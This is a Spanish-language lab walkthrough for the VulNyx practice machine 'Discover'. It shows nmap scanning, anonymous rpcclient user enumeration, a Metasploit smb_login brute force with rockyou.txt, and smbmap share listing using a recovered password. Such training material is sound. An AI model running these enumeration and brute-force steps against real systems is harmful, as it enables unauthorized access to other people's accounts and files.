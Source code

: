 Maquina que vamos a utilizar **Kali Linux y Discover** [https://vulnyx.com/#discover](https://vulnyx.com/#discover)

  

> [!important] Aunque el protocolo **SMB** y el Samba corren por el mismo **puerto 445** no son lo mismo.
> 
> El protocolo **Samba** es una implementación libre del protocolo SMB (Server Message Block), que permite **compartir** archivos, impresoras y otros recursos **en redes entre sistemas Windows y Unix/Linux**. Samba facilita la comunicación entre dispositivos de diferentes plataformas, permitiendo que sistemas basados en Unix actúen como servidores o clientes en redes Windows.  
>   

  

En el momento que nos encontremos con el puerto 445 abierto o SAMBA funcionando, debemos de utilizar una **herramienta** conocida como **RPCCLIENT** para tratar de enumerar usuarios existentes dentro de la máquina objetivo.

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 45.png|image 45.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.17
```

![[Imagenes/image 1 34.png|image 1 34.png]]

  

- Empezamos con la **premisa que esta vez no tenemos usuarios ni contraseñas**.
- Utilizamos la **herramienta rpcclient.**
    
    `rpcclient -U "" -N 10.0.3.17`
    
    ![[Imagenes/image 2 33.png|image 2 33.png]]
    
    Se nos muestra un prompt. Debemos conocer tres comandos importantes que podemos utilizar aquí:
    
    > [!important]
    > 
    > - `**srvinfo**`: Este comando proporciona **información** sobre el servidor remoto, como el **sistema operativo, el nombre del servidor y otros detalles relevantes.** Es útil para obtener una visión general del sistema objetivo.
    > - `**querydispinfo**`: Este comando **enumera** información sobre los **usuarios del dominio**, como nombres de usuario y descripciones. Es útil para identificar cuentas activas en el sistema.
    > - `**enumdomusers**`: Este comando **enumera todos los usuarios del dominio**. Es una forma eficaz de obtener una lista completa de las cuentas de usuario en el sistema remoto.
    
    ![[Imagenes/image 3 32.png|image 3 32.png]]
    
    **Ya tengo los usuarios.**
    

  

- Vamos a usar Metasploit para hacer un ataque de fuerza bruta al puerto 445.
    
    Vamos a usar el scanner `scanner/smb/smb_login`
    
      
    
    - `use scanner/smb/smb_login`
        
        ![[Imagenes/image 4 31.png|image 4 31.png]]
        

- `show options`
    
    ![[Imagenes/image 5 30.png|image 5 30.png]]
    

  

- `set RHOSTS 10.0.3.17`
- `set PASS_FILE /usr/share/wordlists/rockyou.txt`
- `set VERBOSE false`
- `set SMBUser ken`
- `show options`
    
    ![[Imagenes/image 6 28.png|image 6 28.png]]
    

  

- `run`
    
    ![[Imagenes/image 7 26.png|image 7 26.png]]
    

  

- Una vez que ya tenemos el usuario y contraseña en un terminal usamos la **herramienta smbmap.**
    
    ```Bash
    smbmap -u 'ken' -p 'kenken' -H 10.0.3.17
    ```
    
    ![[Imagenes/image 8 24.png|image 8 24.png]]
    

```Bash
smbmap -u 'ken' -p 'kenken' -H 10.0.3.17 -r ken
```

![[Imagenes/image 9 22.png|image 9 22.png]]